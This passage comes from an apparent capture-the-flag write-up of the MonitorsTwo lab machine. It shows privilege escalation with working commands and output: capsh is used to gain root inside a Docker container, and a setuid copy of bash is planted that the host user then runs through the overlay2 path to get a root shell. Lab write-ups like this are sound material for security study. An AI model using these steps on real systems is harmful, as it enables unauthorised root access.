 Running the command works:



    www-data@50bca5e748b0:/var/www$ capsh --gid=0 --uid=0 --
    root@50bca5e748b0:/var/www# 



### SetUID bash

Inside the container, I'll make a copy of `bash` and set it to SetUID:



    root@50bca5e748b0:/var/www# cp /bin/bash /tmp/0xdf
    root@50bca5e748b0:/var/www# chmod 4777 /tmp/0xdf 



On the host, this shows up as 4777 (note the `s` where the owner `x`
would be):



    marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    -rwsrwxrwx 1 root root 1234376 May  1 11:14 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf



Running it (with `-p` to not drop privs) gives a root shell:



    marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf -p
    0xdf-5.1#



And I can read `root.txt`:



    0xdf-5.1# cat root.txt
    2d1cb34e************************







